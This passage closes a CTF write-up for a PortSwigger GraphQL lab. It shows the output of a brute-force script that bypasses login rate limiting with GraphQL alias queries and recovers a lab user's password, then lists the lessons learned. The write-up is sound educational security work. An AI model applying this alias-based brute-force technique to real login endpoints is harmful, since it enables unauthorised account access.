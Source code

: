 ```shell
┌[siunam♥Mercury]-(~/ctf/Portswigger-Labs/Testing-GraphQL-APIs)-[2023.07.07|16:38:28(HKT)]
└> python3 bypass_rate_limit.py 
[*] Sending the login aliases query...
[+] Found the correct password!
[+] Username: carlos, password: 112233
```

**Let's login as user `carlos`!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-4/images/Pasted%20image%2020230707163928.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-4/images/Pasted%20image%2020230707163942.png)

# What we've learned:

1. Enumerating GraphQL Schema
2. Bypassing Rate Limit Via Aliases Query